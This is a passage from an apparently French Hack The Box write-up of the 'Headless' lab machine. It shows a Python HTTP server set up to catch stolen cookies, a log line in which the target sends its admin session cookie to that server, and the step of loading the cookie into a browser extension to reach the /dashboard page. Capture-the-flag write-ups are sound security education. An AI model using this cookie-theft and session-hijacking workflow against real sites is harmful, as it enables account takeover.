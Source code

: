 Avant de lancer l'attaque, il faut créer un serveur pour récupérer les cookies.
```bash
python3 -m http.server 80
```

Une fois que l'attaque est lancée, on peut voir que le serveur a reçu les cookies.
```bash
[Mar 26, 2024 - 14:08:42 (CET)] exegol-htb /workspace: python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.11.8 - - 26/Mar/2024 14:15:48] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```
Nous avons recu le cookie is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

On peut voir que l'on ne peut pas se connecter au /dashboard 
![cookie](../assets/uploads/2024/2024-htb-headless/e.png)

Du coup nous allons essayer de connecter au /dashboard. Pour ça nous allons utiliser le cookie que nous avons reçu.
 
 on va mettre le cookie dans une extension de navigateur avec [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)

 ![upload_cookie](..site/assets/uploads/2024/2024-htb-headless/f.png)


 ![upload_cookie](../assets/uploads/2024/2024-htb-headless/g.png)
